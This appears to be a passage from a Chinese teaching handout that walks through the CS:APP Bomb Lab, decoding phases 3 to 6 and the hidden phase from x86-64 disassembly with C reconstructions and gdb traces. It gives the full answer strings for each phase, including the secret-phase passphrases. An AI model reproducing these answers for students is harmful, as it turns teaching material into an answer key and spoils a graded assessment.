三个 lea 先把输出地址算好：0xc(%rsp) 给第一个整数，0x7(%rsp) 给字符（只占一个字节），0x8(%rsp) 给第二个整数。sscanf 的返回值必须大于 2，也就是三项都成功转换；格式串只有三个转换项，jle 检查的是 sscanf 的返回值不满足“成功转换三项”的情况；尾随文本不会被这个格式串转换，也不存在“因为用 jle 就多转换额外的项”。接着 cmpl $0x7,0xc(%rsp) 与 ja 做无符号范围检查，把第一个整数限制在 0 到 7；然后从 0x3320 处的跳转表按 4 字节一项取出偏移，符号扩展后加上表的基址，跳转到对应分支。
跳转表的内容是 8 个 32 位相对偏移。把它们加上表基址 0x3320，就得到 8 个分支的入口地址；每个分支检查第二个整数，并把一个字符放进 %eax。整理出来是下面这张表：
表 8 phase 3 的八个分支（第一个整数 0–7 对应一行）
| 第一个整数 | 第二个整数 | 字符 | 输入示例 |
|---|---|---|---|
| 0 | 0x37a（890） | o（0x6f） | 0 o 890 |
| 1 | 0x2ef（751） | h（0x68） | 1 h 751 |
| 2 | 0x73（115） | f（0x66） | 2 f 115 |
| 3 | 0x1fa（506） | u（0x75） | 3 u 506 |
| 4 | 0x1a4（420） | z（0x7a） | 4 z 420 |
| 5 | 0x216（534） | z（0x7a） | 5 z 534 |
| 6 | 0x2be（702） | o（0x6f） | 6 o 702 |
| 7 | 0x153（339） | t（0x74） | 7 t 339 |
每个分支结束时都跳到 0x173c，那里执行 cmp %al,0x7(%rsp)：%al 是分支给出的字符，0x7(%rsp) 是输入里读到的字符，两者不等就爆炸。因此任意一行 “第一个整数 字符 第二个整数” 都满足条件，讲义选用第 0 行 0 o 890。补丁副本运行后，phase 3 的 “Halfway there! Good job!” 正常出现。
还原成 C 时，switch 的每个 case 可以写成“检查第二个整数、再给出字符”的形式：
void phase_3(char *s) {
int x, y; char c;
char expect;
if (sscanf(s, "%d %c %d", &x, &c, &y) <= 2) explode_bomb();
if ((unsigned)x > 7) explode_bomb();
switch (x) {
case 0: if (y != 0x37a) explode_bomb(); expect = 'o'; break;
case 1: if (y != 0x2ef) explode_bomb(); expect = 'h'; break;
case 2: if (y != 0x73) explode_bomb(); expect = 'f'; break;
case 3: if (y != 0x1fa) explode_bomb(); expect = 'u'; break;
case 4: if (y != 0x1a4) explode_bomb(); expect = 'z'; break;
case 5: if (y != 0x216) explode_bomb(); expect = 'z'; break;
case 6: if (y != 0x2be) explode_bomb(); expect = 'o'; break;
case 7: if (y != 0x153) explode_bomb(); expect = 't'; break;
default: explode_bomb();
}
if (c != expect) explode_bomb();
}⚠ 参数顺序、返回值和字符宽度
这一关有三个常见的坑：一是把 sscanf 的三个输出地址对应错，正确的是 0xc 给整数、0x7 给字符、0x8 给第二个整数，按 lea 写进了哪个寄存器来判断，而不是按格式串的先后；二是把 cmp $0x2,%eax 当成在检查输入，其实它检查的是 sscanf 成功转换的项数；三是十六进制与十进制换算出错，可以直接用 p 0x1fa 让 gdb 转换（输出 506），需要看十六进制时用 p/x 506。注意格式字母写在斜杠后面：p/x、p/d、p/c 中的 x、d、c 才是格式，p 0x37a 末尾的 a 只是十六进制数字。另外字符只占 0x7(%rsp) 一个字节，用 x/4dw 看这一带内存时会被相邻字节“拼”成一个很大的数，必要时用 x/1cb 看单个字符。
同类变体
变体可能改格式串、让第二个整数由第一个整数算出、或把跳转表换成 if-else 链；先追输出参数寄存器，再核对每个分支里的常数。
3.4 phase 4：递归函数 func4#
phase 4 要求输入两个整数。程序用 sscanf 读出第一个整数，检查它在 0 到 14 之间，然后调用递归函数 func4(x, 0, 14)，要求返回值等于 27，并且第二个整数也等于 27：
0000000000001780 <phase_4>:
1780: sub $0x18,%rsp
1784: lea 0x8(%rsp),%rcx
1789: lea 0xc(%rsp),%rdx
178e: lea 0x1f2b(%rip),%rsi # 36c0
...
179a: call 1160 <__isoc99_sscanf@plt>
179f: cmp $0x2,%eax
17a2: jne 17b1 <phase_4+0x31>
17a4: mov 0xc(%rsp),%eax
17a8: test %eax,%eax
17aa: js 17b1 <phase_4+0x31>
17ac: cmp $0xe,%eax
17af: jle 17b6 <phase_4+0x36>
...
17b6: mov $0xe,%edx
17bb: mov $0x0,%esi
17c0: mov 0xc(%rsp),%edi
17c4: call 174e <func4>
17c9: cmp $0x1b,%eax
17cc: jne 17d5 <phase_4+0x55>
17ce: cmpl $0x1b,0x8(%rsp)
17d3: je 17da <phase_4+0x5a>
...sscanf 的格式串是 %d %d，返回 2 才继续；第一个整数（0xc(%rsp)）不能为负、不能大于 14。随后 %edx 置 14、%esi 置 0、%edi 置 x，调用 func4；返回值在 %eax，必须等于 0x1b（27），第二个整数（0x8(%rsp)）也必须等于 27。func4 是标准的“二分查找求和”递归：
000000000000174e <func4>:
174e: push %rbx
174f: mov %edx,%eax
1751: sub %esi,%eax
1753: mov %eax,%ebx
1755: shr $0x1f,%ebx
1758: add %eax,%ebx
175a: sar $1,%ebx
175c: add %esi,%ebx
175e: cmp %edi,%ebx
1760: jg 1768 <func4+0x1a>
1762: jl 1774 <func4+0x26>
1764: mov %ebx,%eax
...
1767: ret
1768: lea -0x1(%rbx),%edx
176b: call 174e <func4>
1770: add %eax,%ebx
...
1774: lea 0x1(%rbx),%esi
1777: call 174e <func4>
177c: add %eax,%ebx
177e: jmp 1764 <func4+0x16>前五条指令在算 mid。%edx - %esi 得到区间长度 hi-lo，存进 ebx；shr $0x1f 取出长度的符号位，add %eax,%ebx 与 sar $1 合起来实现“除以 2 并向零舍入”；最后 add %esi,%ebx 得到 mid = lo + (hi-lo)/2。接下来 cmp %edi,%ebx 比较 mid 与目标值：相等就把 mid 放进 eax 返回；mid 大于目标时递归 func4(x, lo, mid-1)，返回后把 eax 加到 ebx（即 mid）上；mid 小于目标时递归 func4(x, mid+1, hi)，同样把返回值加到 mid 上。
翻译成 C 就是：
int func4(int a, int lo, int hi) {
int mid = (hi - lo + (hi - lo < 0)) / 2 + lo;
if (mid > a) return mid + func4(a, lo, mid - 1);
if (mid < a) return mid + func4(a, mid + 1, hi);
return mid;
}phase 4 要求 func4(x, 0, 14) 等于 27。第一层 mid = 7，若 x < 7 返回 7 + func4(x, 0, 6)，若 x > 7 返回 7 + func4(x, 8, 14)，若 x = 7 返回 7。要凑出 27，路径上的 mid 之和必须是 27；把 0 到 14 的 15 个值逐一试算，只有 x = 9 得到 27：第一层 mid = 7，第二层区间 [8,14] 的 mid = 11，第三层区间 [8,10] 的 mid = 9，三者相加 7+11+9 = 27。其余值要么走别的路径，要么在找到 9 之前就返回。gdb 断在 func4 上，三次调用的参数正好印证了这条路径：
(gdb) break func4
(gdb) continue
--- func4 第 1 次调用（target, 左界, 右界）---
edi 0x9 9
esi 0x0 0
edx 0xe 14
--- func4 第 2 次调用 ---
edi 0x9 9
esi 0x8 8
edx 0xe 14
--- func4 第 3 次调用 ---
edi 0x9 9
esi 0x8 8
edx 0xa 10所以 phase 4 的答案是一行两个整数 9 27：第一个 9 是让 func4 返回 27 的唯一输入，第二个 27 是直接与 0x1b 比较的那一项。补丁副本运行后，phase 4 的 “So you got that one. Try this one.” 正常出现。
⚠ 被调用者保存寄存器与返回值
func4 开头 push %rbx、结尾 pop %rbx，是因为它用 ebx 保存 mid；递归调用会覆盖调用者保存寄存器，但不会改变被调用者保存寄存器，所以 mid 在 call 之后仍然可用。容易把“call 之后 ebx 还是 mid”当作理所当然，而没有先确认 push/pop。参考别人的解答时也要小心：别的炸弹里同名的 func4，返回值的算法可能完全不同，一切以自己炸弹的汇编为准，盯住 call 之后、ret 之前对 %eax 做了什么。另一个易错点是把 func4 当成“返回 mid”而不是“返回 mid 之和”：0x1770 的 add %eax,%ebx 和 0x177c 的 add %eax,%ebx 才是求和的位置，不要套用网上经典版本的“返回 2*mid”。
同类变体
变体可能换区间、换累加方式（最大值、奇偶分类）或把返回值再参与运算；输入空间只有十几个值时，写程序枚举比死读汇编快。
3.5 phase 5：数组下标跳转与计数#
phase 5 要求输入两个整数。程序把第一个整数与 0xf 相与，得到一个 0 到 15 的下标，然后沿一个 16 个元素的 int 数组不断跳转，统计步数和沿途元素之和；步数必须等于 7，累加和必须等于第二个整数：
00000000000017df <phase_5>:
17df: sub $0x18,%rsp
17e3: lea 0x8(%rsp),%rcx
17e8: lea 0xc(%rsp),%rdx
17ed: lea 0x1ecc(%rip),%rsi # 36c0
...
17f9: call 1160 <__isoc99_sscanf@plt>
17fe: cmp $0x1,%eax
1801: jle 181a <phase_5+0x3b>
1803: mov 0xc(%rsp),%eax
1807: and $0xf,%eax
180a: mov %eax,0xc(%rsp)
180e: mov $0x0,%ecx
1813: mov $0x0,%edx
1818: jmp 1836 <phase_5+0x57>
...
1821: add $0x1,%edx
1824: cltq
1826: lea 0x1b13(%rip),%rsi # 3340
182d: mov (%rsi,%rax,4),%eax
...
1834: add %eax,%ecx
1836: mov 0xc(%rsp),%eax
183a: cmp $0xf,%eax
183d: jne 1821 <phase_5+0x42>
183f: cmp $0x7,%edx
1842: jne 184a <phase_5+0x6b>
1844: cmp %ecx,0x8(%rsp)
1848: je 184f <phase_5+0x70>
...ecx 是累加和，edx 是步数，0xc(%rsp) 里放当前状态。循环先用当前状态取 array_0[state]，把新状态写回，再把新状态加到 ecx，步数加一；当状态等于 15 时退出循环。退出后检查步数等于 7、ecx 等于第二个整数。array.0 的 16 个元素从二进制里读出是：
表 9 phase 5 的 16 个元素（array.0，下标 0–15）
| 下标范围 | 0–7 | 8–15 |
|---|---|---|
| 值 | 10 2 14 7 8 12 15 11 | 0 4 1 13 3 9 6 5 |
从某个起始值出发反复应用“state = array[state]”，要正好走 7 步到达 15，并把沿途的值累加。枚举 16 个起点，只有起始状态 8 满足步数 7，路径是 8 → 0 → 10 → 1 → 2 → 14 → 6 → 15，沿途值为 0、10、1、2、14、6、15，和为 48。第一个整数只取低 4 位，所以 8、24、40、-8 都等价；讲义选用 8。第二个整数必须是 48。答案是 8 48。
把这段逻辑写成 C：
void phase_5(char *s) {
int x, y;
int state, steps = 0, sum = 0;
if (sscanf(s, "%d %d", &x, &y) <= 1) explode_bomb();
state = x & 0xf;
while (state != 15) {
steps++;
state = array_0[state]; /* 符号表中名为 array.0 */
sum += state;
}
if (steps != 7 || sum != y) explode_bomb();
}⚠ 起始状态只取低四位
and $0xf,%eax 把第一个整数截成 0 到 15，所以答案不唯一：8、24、40、-8 的低四位都是 8。考场上写 8 最稳妥，不需要解释同余。另一个易错点是累加和的起点：循环先把 state 更新为 array[state]，再把“新 state”加到 sum，因此最终到达 15 时，15 本身也被加进去了；如果手算时漏掉最后的 15，和会是 33 而不是 48。最后，cmp $0x1,%eax 与 jle 表示 sscanf 至少要成功读入两个整数，只写一个数会爆炸。
同类变体
变体可能用字符表拼单词、排列环或固定步数回到起点；读法仍是找数组基址、确认下标截断、步数从 0 还是 1 开始、累加的是旧状态还是新状态。
3.6 phase 6：排列、链表重排与升序#
phase 6 是六关里最长的一关，要求输入 1 到 6 的一个排列。程序分三段：第一段检查六个数确实是 1 到 6 的排列；第二段按输入的顺序从一条固定链表里取节点，把指针存进栈上的数组；第三段按这个顺序重新串链，并检查新链表的 value 是否从小到大。第一段的汇编如下：
0000000000001854 <phase_6>:
1854: push %r12
1856: push %rbp
1857: push %rbx
1858: sub $0x50,%rsp
185c: lea 0x30(%rsp),%rsi
1861: call 1daf <read_six_numbers>
1866: mov $0x0,%ebp
186b: jmp 1896 <phase_6+0x42>
186d: call 1d44 <explode_bomb>
...
1874: add $0x1,%ebx
...
1893: mov %r12d,%ebp
...
18aa: lea 0x1(%rbp),%r12d
18ae: mov %r12d,%ebx
18b1: jmp 1877 <phase_6+0x23>
1877: cmp $0x5,%ebx
187a: jg 1893 <phase_6+0x3f>
187c: movslq %ebp,%rax
187f: movslq %ebx,%rdx
1882: mov 0x30(%rsp,%rdx,4),%edi
1886: cmp %edi,0x30(%rsp,%rax,4)
188a: jne 1874 <phase_6+0x20>
...
1896: cmp $0x5,%ebp
1899: jg 18b3 <phase_6+0x5f>
189b: movslq %ebp,%rax
189e: mov 0x30(%rsp,%rax,4),%eax
18a2: sub $0x1,%eax
18a5: cmp $0x5,%eax
18a8: ja 186d <phase_6+0x19>
...ebp 是外层下标 i，ebx 是内层下标 j，r12d 暂存 i+1。外层先做 sub $0x1,%eax 后 cmp $0x5,%eax、ja：把 a[i] 减 1 后按无符号比较，大于 5 就爆炸，这一手同时排除了 0、负数和大于 6 的数。内层从 j = i+1 开始比较 a[i] 与 a[j]，相等就爆炸。两层循环结束后，六个数必然是 1 到 6 的一个排列。内层结束后 mov %r12d,%ebp 是外层循环的更新，r12 存的是 i+1，不能误读成“把计数赋给另一个变量”。
第二段按排列取节点，汇编如下：
（续，0x18b3 起）
18b3: mov $0x0,%esi
18b8: jmp 18d1 <phase_6+0x7d>
18ba: mov 0x8(%rdx),%rdx
18be: add $0x1,%eax
18c1: movslq %esi,%rcx
18c4: cmp %eax,0x30(%rsp,%rcx,4)
18c8: jg 18ba <phase_6+0x66>
18ca: mov %rdx,(%rsp,%rcx,8)
18ce: add $0x1,%esi
18d1: cmp $0x5,%esi
18d4: jg 18e4 <phase_6+0x90>
18d6: mov $0x1,%eax
18db: lea 0x486e(%rip),%rdx # 6150
...esi 是 i，eax 是计数，rdx 是当前节点。每次从 node1 开始，沿 0x8(%rdx) 前进，直到计数达到 a[i]，再把节点指针存进栈上从 rsp 开始的指针数组（每项 8 字节）。也就是说，输入的第 i 个数表示“取链表里的第几个节点”（从 1 开始数）。链表的节点和值从二进制里读出来是：
表 10 phase 6 的链表节点（node1 到 node6）
| 节点 | value | id | 地址 | next |
|---|---|---|---|---|
| node1 | 228 | 1 | 0x6150 | node2 |
| node2 | 717 | 2 | 0x6160 | node3 |
| node3 | 512 | 3 | 0x6170 | node4 |
| node4 | 640 | 4 | 0x6180 | node5 |
| node5 | 72 | 5 | 0x6190 | node6 |
| node6 | 899 | 6 | 0x5120 | NULL |
第三段先按指针数组重新串链，再检查升序：
（续，0x18e4 起）
18e4: mov (%rsp),%rbx
18e8: mov %rbx,%rcx
18eb: mov $0x1,%eax
18f0: jmp 1903 <phase_6+0xaf>
18f2: movslq %eax,%rdx
18f5: mov (%rsp,%rdx,8),%rdx
18f9: mov %rdx,0x8(%rcx)
18fd: add $0x1,%eax
1900: mov %rdx,%rcx
1903: cmp $0x5,%eax
1906: jle 18f2 <phase_6+0x9e>
1908: movq $0x0,0x8(%rcx)
...
1910: mov $0x0,%ebp
1915: jmp 191e <phase_6+0xca>
1917: mov 0x8(%rbx),%rbx
191b: add $0x1,%ebp
191e: cmp $0x4,%ebp
1921: jg 1934 <phase_6+0xe0>
1923: mov 0x8(%rbx),%rax
1927: mov (%rax),%eax
1929: cmp %eax,(%rbx)
192b: jle 1917 <phase_6+0xc3>
...rbx 是新链表头，rcx 是当前末尾；循环把指针数组的第 i 项接到末尾，最后把末尾的 next 置 0。随后 rbp 从 0 到 4，逐一比较当前节点的 value 与下一个节点的 value：cmp %eax,(%rbx) 算的是“当前 value - 下一个 value”，jle 表示当前 ≤ 下一个就继续，否则爆炸。所以新链表的 value 必须非递减。
把三段合起来写成 C：
struct node { int value; int id; struct node *next; };
extern struct node node1;
void phase_6(char *input) {
int a[6]; struct node *p[6];
struct node *head, *tail;
int i, j;
read_six_numbers(input, a);
for (i = 0; i < 6; i++) {
if ((unsigned)(a[i] - 1) > 5) explode_bomb();
for (j = i + 1; j < 6; j++)
if (a[i] == a[j]) explode_bomb();
}
for (i = 0; i < 6; i++) {
struct node *n = &node1;
for (j = 1; j < a[i]; j++) n = n->next;
p[i] = n;
}
head = p[0]; tail = head;
for (i = 1; i < 6; i++) { tail->next = p[i]; tail = p[i]; }
tail->next = 0;
for (tail = head; tail->next != 0; tail = tail->next)
if (tail->value > tail->next->value) explode_bomb();
}六个节点的 value 依次是 228、717、512、640、72、899。要按升序排列，顺序必须是 72（node5）、228（node1）、512（node3）、640（node4）、717（node2）、899（node6），对应的输入就是 5 1 3 4 2 6。gdb 读出的六个数字与节点值互相印证：
(gdb) x/6dw $rsp+0x30
0x7fffffffe450: 5 1 3 4 2 6
(gdb) x/10gx &node1
0x55555555c150 <node1>: 0x00000001000000e4 0x000055555555c160
0x55555555c160 <node2>: 0x00000002000002cd 0x000055555555c170
0x55555555c170 <node3>: 0x0000000300000200 0x000055555555c180
0x55555555c180 <node4>: 0x0000000400000280 0x000055555555c190
0x55555555c190 <node5>: 0x0000000500000048 0x000055555555b120
(gdb) x/2gx &node6
0x55555555b120 <node6>: 0x0000000600000383 0x0000000000000000每个节点占 16 字节：低 4 字节是 value，高 4 字节是 id，偏移 8 是 next 指针。例如 node1 的 0x00000001000000e4 拆开是 e4（228）和 1（id）；node5 的 next 指向 0x55555555b120，也就是 node6，所以链表确实是 node1→node2→…→node6→NULL。
⚠ phase 6 的三个高频错误
第一，第一个循环的内层结束后 mov %r12d,%ebp 是 i = i + 1，不是“把内层计数赋给 i”；r12 存的是 i+1，编译器专门留了一个寄存器保存它，正是为了在循环末尾恢复。第二，第三个循环的 goto 版本里写了 rbx = *(8 + rbx)，整理成 for 时容易漏掉 n = n->next，导致死循环或读错节点；从 goto 整理成 for 时必须逐条核对。第三，mov (%rax),%eax 只读 4 字节，比较的是节点的 value 而不是整个 8 字节（value 和 id 拼在一起）；写成 8 字节比较会得到完全不同的结果。另外，判断升序时是“当前 ≤ 下一个”，不是严格小于；本题的 value 互不相同，所以两者结果一样，但换成有重复值的变体就要注意。
同类变体
变体可能降序、按 id 而不是 value 排序、改链表长度或节点结构；先确认输入是排列还是别的范围，再确认“输入到节点”的映射和最后的比较条件。
3.7 隐藏关：phase_defused 与同步序列#
隐藏关不计分，入口也不在六关的提示里。它藏在 phase_defused 中：前六关每过一关都会调用一次 phase_defused，只有第六次（num_input_strings 等于 6）时，它才会检查两个“暗号”，两个都对了才打印 “Curses, you've found the secret phase!” 并调用 secret_phase。phase_defused 的关键汇编如下：
0000000000001f2a <phase_defused>:
1f2a: push %rbx
1f2b: mov %rdi,%rbx
1f2e: movl $0x0,(%rdi)
1f34: mov %rdi,%rsi
1f37: mov $0x1,%edi
1f3c: call 1c39 <send_msg>
1f41: cmpl $0x1,(%rbx)
1f44: jne 1f51 <phase_defused+0x27>
1f46: cmpl $0x6,0x46cb(%rip) # 6618
1f4d: je 1f6c <phase_defused+0x42>
1f4f: pop %rbx
1f50: ret
...
1f6c: call 1475 <abracadabra>
...
1f8f: call 14f7 <alohomora>
...这段逻辑翻成 C 是：
void phase_defused(int *fp) {
*fp = 0;
send_msg(1, fp);
if (*fp != 1) { printf("Don't try ...!\n"); exit(8); }
if (num_input_strings != 6) return;
if (abracadabra() != 0) {
if (alohomora() != 0) {
puts("Curses, you've found the secret phase!");
puts("But finding it and solving it are quite different...");
secret_phase();
}
}
}两个暗号函数的等价 C 如下（数组尺寸与输出逻辑按二进制行为概括，不冒充可直接编译的源码）：
int abracadabra(void) {
int a[6];
char tok[16];
if (sscanf(input_strings[1], "%d %d %d %d %d %d %s",
&a[0], &a[1], &a[2], &a[3], &a[4], &a[5], tok) != 7)
return 0;
return strcmp(tok, "NothingThatHasMeaning1sEasy...") == 0;
}
int alohomora(void) {
int x, y;
char tok[32];
if (sscanf(input_strings[3], "%d %d %s", &x, &y, tok) != 3)
return 0;
for (int i = 0; tok[i] != 0; i++) tok[i] += 2;
return strcmp(tok, "000Gcu{FqgupvGpvgt3pvqItqypWrNkhg0") == 0;
}两个暗号函数都从 input_strings 的前几行里读“多出来的 token”。abracadabra 解析 input_strings[1]（也就是 phase 2 那一行）为六个整数加一个字符串，要求 sscanf 返回 7，且字符串等于 NothingThatHasMeaning1sEasy...。alohomora 解析 input_strings[3]（phase 4 那一行）为两个整数加一个字符串，要求 sscanf 返回 3，然后把字符串的每个字符加 2，要求结果等于 000Gcu{FqgupvGpvgt3pvqItqypWrNkhg0。把目标串逐字符减 2，得到 ...EasyDoesntEnter1ntoGrownUpLife.，其中 “1nto” 的 1 是原题刻意写的 leet 写法。
因此，隐藏关的入口需要在原来的答案行上追加内容：
表 11 隐藏关的入口条件（在六关答案的基础上追加）
| 行 | 追加的内容 | 说明 |
|---|---|---|
| phase 2 行 | NothingThatHasMeaning1sEasy... | abracadabra 检查，6 个整数后第 7 项 |
| phase 4 行 | ...EasyDoesntEnter1ntoGrownUpLife. | alohomora 检查，两个整数后第 3 项；原文逐字符加 2 |
入口通过之后，secret_phase 读入第七行，把它限制在 13 个字符以内，再交给 check_synchronizing_sequence 检查。后者用一个 7 个状态的有限状态机模拟这串 0/1：
000000000000193d <emulate_fsm>:
193d: push %rbp
...
1943: mov %edi,%ebp
1945: mov %rsi,%rbx
1948: jmp 1972 <emulate_fsm+0x35>
194a: movsbl (%rbx),%eax
194d: sub $0x30,%eax
...
1955: lea 0x0(,%rax,8),%rdx
...
195d: sub %rax,%rdx
1960: lea (%rdx,%rbp,1),%rax
1964: lea 0x1a15(%rip),%rdx # 3380
196b: mov (%rdx,%rax,4),%ebp
...
1972: movzbl (%rbx),%eax
1975: test %al,%al
1977: je 1987 <emulate_fsm+0x4a>
...
1980: call 1d44 <explode_bomb>
...每个字符先减 0x30（字符 0 的 ASCII），若结果大于 1 就爆炸，所以输入只能由 0 和 1 组成。状态转移的下标是 state + 7*digit：把 14 个表项按输入位分成前后两段，每段 7 个状态，等价于 table[digit][state]；它不是“状态占一行、每行两个数字”的二维排法。完整的状态转移可以写成：
int emulate_fsm(int state, char *s) {
for (; *s != 0; s++) {
int d = *s - '0';
if (d < 0 || d > 1) explode_bomb();
state = fsm[state + 7 * d];
}
return state;
}其中 fsm[0..6] 是输入 0 的下一状态表，fsm[7..13] 是输入 1 的下一状态表。从 0x3380 读出的 14 个整数整理成表：
表 12 隐藏关的有限状态机（7 个状态、输入 0/1）
| 状态 | 0 | 1 | 2 | 3 | 4 | 5 | 6 |
|---|---|---|---|---|---|---|---|
| 输入 0 的下一状态 | 5 | 6 | 1 | 2 | 4 | 3 | 0 |
| 输入 1 的下一状态 | 2 | 4 | 4 | 4 | 0 | 6 | 5 |
check_synchronizing_sequence 先算从状态 0 出发的终态，再对状态 1 到 6 分别模拟，要求所有终态相同：
int check_synchronizing_sequence(char *s) {
int ref = emulate_fsm(0, s);
for (int st = 1; st <= 6; st++)
if (emulate_fsm(st, s) != ref) return -1;
return 0;
}这样的 0/1 串称为同步序列。用程序枚举长度为 1 到 13 的串，最短的同步序列长度是 13，例如 1001000101101：从 7 个状态出发，经过这串输入后都到达状态 4。长度为 13 的同步序列不止一个，1001100110001 和 1011011011001 也可以。讲义选用第一个，答案文件第七行写的就是它。
补丁副本的完整运行输出里，隐藏关的几句话都出现了：
Curses, you've found the secret phase!
But finding it and solving it are quite different...
And I can't give you a clear answer yet. You need to measure it yourself...
Great! You've defused the secret stage!
At this very point of triumph, we count on you to defeat Mr. Gin utterly!⚠ 隐藏关不计分，但测验可以考
隐藏关不进入分数，做不做都不影响 Lab 成绩；但它的“入口藏在 phase_defused、用前面关卡的额外 token 触发、再检查一个有限状态机”是很好的综合题，Lab 测验完全可能拿它出题。读这类题的方法是固定的：先在 phase_defused 里找 num_input_strings 的比较，再看它调用了哪些“暗号函数”，然后在暗号函数里找 sscanf 的输入行号（input_strings + 偏移）和格式串，最后把目标字符串逐字符逆运算回去。注意 input_strings 每行 120 字节，所以 +0x78 是第 1 行（从 0 开始数），+0x168 是第 3 行。
同类变体
变体可能把暗号换到别的行、或把同步序列换成“到达指定状态”“固定步数回到原状态”；先用偏移除以 120 确认行号，再抄下 FSM 表枚举。
第四部分 拓展：Bomb Lab 的常见变体#
Bomb Lab 不是只有一套题。CS:APP 教材附带的是经典的六关版本，各学校、各年份的炸弹会在同样的框架里换掉常量、换掉数据结构、甚至换掉整关的玩法。这一部分先把六关的“经典版、本学期版、常见改法”列成一张表，再用三个新编的函数示范三类最常考的变体：字符表映射、二叉树路径累加、链表顺序检查。三个函数都用 gcc 13.3、-Og 编译，源码和 objdump 输出在 sim/examples 里。
4.1 六关的变体地图#
表 13 六关的常见变体与对应的能力
| 关卡 | 本学期版 | 常见改法 | 要练的能力 |
|---|---|---|---|
| phase 1 | 与常量串比较 | 比较前做大小写转换、反转字符串、比较子串、用 strcmp 或自写循环 | 找常量串地址、判断比较方向 |
| phase 2 | 递推 a[i]=a[i-1]+2a[i-2] | 等比、斐波那契、和/差为定值、从末项反推 | 从循环里的访存恢复递推式 |
| phase 3 | sscanf 三项 + 8 路跳转表 | 改格式串、分支里算表达式、跳转表换成 if 链 | 追参数寄存器、读跳转表 |
| phase 4 | func4 二分查找、返回 mid 之和 | 换区间、换累加方式、返回值再参与运算 | 递归展开、被调用者保存寄存器 |
| phase 5 | 低 4 位下标、16 元素整数表、计步求和 | 字符表拼单词、排列环、按固定步数回到起点 | 数组基址、下标截断、循环计数 |
| phase 6 | 排列 + 链表重排 + 升序 | 降序、按 id 排序、改链表长度/节点结构 | 多层循环、指针重连、结构体偏移 |
| 隐藏关 | 两行暗号 + 7 状态 FSM 同步序列 | 暗号换行、改成“到达指定状态”或“固定步数” | 读字符串偏移、模拟状态机、枚举 |
从这张表可以看出，变体并没有改变“读汇编”的基本功，只是把同一套结构换了参数。真正需要额外准备的是两类新面孔：一是字符表映射（phase 5 的经典玩法），二是二叉树和更复杂的递归（隐藏关 fun7 的经典玩法）。下面三节分别示范。
4.2 字符表映射：低 4 位拼单词#
经典的 phase 5 变体不使用整数数组，而是用一个 16 字符的表：取输入字符的低 4 位作下标，查表得到一个新字符，六次之后拼接成某个目标单词。下面这个 nib_word 检查由 6 个字符能否拼出目标串：
static const char tab[16] = {
'm', 'a', 'g', 'i', 'c', 'w', 'o', 'r',
'd', 's', 't', 'u', 'f', 'n', 'e', 'l'
};
int nib_word(const char *s, const char *target) {
for (int i = 0; i < 6; i++) {
if (tab[(unsigned char)s[i] & 0xf] != target[i]) return 0;
}
return 1;
}编译成可执行文件后，nib_word 的汇编是：
0000000000401106 <nib_word>:
401106: mov $0x0,%eax
40110b: cmp $0x5,%eax
40110e: jg 40112b <nib_word+0x25>
401110: movslq %eax,%rcx
401113: movzbl (%rdi,%rcx,1),%edx
401117: and $0xf,%edx
40111a: movzbl (%rsi,%rcx,1),%ecx
40111e: cmp %cl,0x402020(%rdx)
401124: jne 401131 <nib_word+0x2b>
401126: add $0x1,%eax
401129: jmp 40110b <nib_word+0x5>
40112b: mov $0x1,%eax
401130: ret
401131: mov $0x0,%eax
401136: reteax 是循环变量 i，rcx 是符号扩展后的下标；movzbl (%rdi,%rcx,1),%edx 取出输入字符的字节，and $0xf,%edx 截低 4 位，movzbl (%rsi,%rcx,1),%ecx 取出目标字符，最后 cmp %cl,0x402020(%rdx) 把“查表结果”与目标字符比较。0x402020 就是 tab 的基址，(%rdx) 是按字节寻址，所以表项大小是 1 字节。测试时用输入 pabcde（低 4 位依次是 0 到 5）拼出 magicw，返回 1；把目标换成别的串就返回 0。
⚠ 字符表的三个细节
第一，and $0xf 之后的取值是 0 到 15，但输入字符本身可能是负的 char；用 (unsigned char) 或在汇编里先 movzbl 再截位，才能保证下标正确。第二，表项大小是 1 字节还是 4 字节，要看寻址的比例因子：(%rdx) 是 1 字节，(,%rdx,4) 是 4 字节。第三，目标单词的字符顺序通常与输入顺序一致，但也可能反过来查（先算目标、再反推输入），这时要做一次逆映射。
4.3 链表顺序检查：phase 6 第三段的变体#
phase 6 的第三段是“按比例重排链表后再检查升序”。把检查单独抽出来，就是下面这个 list_sorted：只要当前节点的 value 大于下一个节点的 value 就返回 0，否则继续沿 next 走：
struct node {
long value;
struct node *next;
};
int list_sorted(struct node *p) {
while (p != 0 && p->next != 0) {
if (p->value > p->next->value) return 0;
p = p->next;
}
return 1;
}0000000000000000 <list_sorted>:
0: test %rdi,%rdi
3: je 27 <list_sorted+0x27>
5: mov 0x8(%rdi),%rax
9: test %rax,%rax
c: je 1b <list_sorted+0x1b>
e: mov (%rax),%rdx
11: cmp %rdx,(%rdi)
14: jg 21 <list_sorted+0x21>
16: mov %rax,%rdi
19: jmp 0 <list_sorted>
1b: mov $0x1,%eax
20: ret
21: mov $0x0,%eax
26: ret
27: mov $0x1,%eax
2c: ret第一段 test %rdi,%rdi; je 27 处理空链表，返回 1；mov 0x8(%rdi),%rax 取 next，test %rax,%rax; je 1b 处理只有一个节点的情况；mov (%rax),%rdx 读下一个节点的 value，cmp %rdx,(%rdi) 与当前节点的 value 比较，jg 21 表示当前 > 下一个就返回 0。循环尾部 mov %rax,%rdi; jmp 0 把指针移到下一个节点。注意这里用 jg 而不是无符号跳转，因为 value 是 long；如果换成 unsigned，跳转指令和边界都会变。
4.4 二叉树路径累加：fun7 型递归#
隐藏关的经典版本常是一个叫 fun7 的递归函数：在一棵二叉搜索树上走，根据比较结果决定往左还是往右，并把路径上的 key 按某种规则累加或翻倍。下面这个 tree_path 沿查找路径把 key 累加，找不到时返回 -1：
struct tnode { long key; struct tnode *left; struct tnode *right; };
long tree_path(struct tnode *p, long key) {
long sum = 0;
while (p != 0) {
sum += p->key;
if (key == p->key) return sum;
if (key < p->key) p = p->left;
else p = p->right;
}
return -1;
}0000000000000000 <tree_path>:
0: mov $0x0,%edx
5: jmp b <tree_path+0xb>
7: mov 0x10(%rdi),%rdi
b: test %rdi,%rdi
e: je 23 <tree_path+0x23>
10: mov (%rdi),%rax
13: add %rax,%rdx
16: cmp %rsi,%rax
19: je 2a <tree_path+0x2a>
1b: jle 7 <tree_path+0x7>
1d: mov 0x8(%rdi),%rdi
21: jmp b <tree_path+0xb>
23: mov $0xffffffffffffffff,%rdx
2a: mov %rdx,%rax
